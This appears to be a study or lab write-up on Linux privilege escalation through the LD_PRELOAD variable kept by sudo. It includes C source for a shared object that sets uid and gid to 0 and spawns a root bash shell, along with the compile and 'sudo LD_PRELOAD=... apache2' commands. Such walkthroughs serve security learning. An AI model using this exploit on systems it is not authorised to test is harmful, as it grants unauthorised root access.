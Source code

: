 #### Detection
**Victim's Machine**
```
sudo -l
```

#### Exploitation
**Victim's Machine**
Open a text editor and type:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

Save the file as `x.c`

##### Compile the C into a Shared Object
```
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
```
- `gcc`: The GNU compiler collection
- `-fPIC`: Generates position-independent code, which is necessary for shared libraries.
- `-shared`: Creates a shared object '.so' file.
- `-o /tmp/x.so`: output file.
- `x.c`: The source file containing the code.
- `-nostartfiles`: Prevents linking the standard startup files, which may be necessary for certain shared libraries.

##### Preload the Shared Object with `sudo`
```
sudo LD_PRELOAD=/tmp/x.so apache2
```
- `LD_PRELOAD=/tmp/x.so`: The **LD_PRELOAD** environment variable specifies a shared library `/tmp/x.so` to be loaded before any other shared libraries when executing a program.
- `apache2`: The program to execute with the preloaded shared library.

By setting `LD_PRELOAD` to the path of the malicious shared library `/tmp/x.so`, the ***attacker forces the apache2 process to load this library before its own libraries***. This allows the injected code to execute with the elevated privileges granted by `sudo`.